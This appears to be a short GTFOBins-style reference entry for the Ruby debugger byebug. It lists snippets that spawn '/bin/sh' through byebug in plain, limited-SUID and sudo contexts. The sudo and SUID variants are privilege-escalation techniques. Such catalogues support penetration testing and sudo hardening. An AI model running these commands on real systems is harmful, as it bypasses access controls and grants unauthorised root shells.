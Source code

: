 functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        byebug $TF
        continue
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        ./byebug $TF
        continue
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        sudo byebug $TF
        continue
---
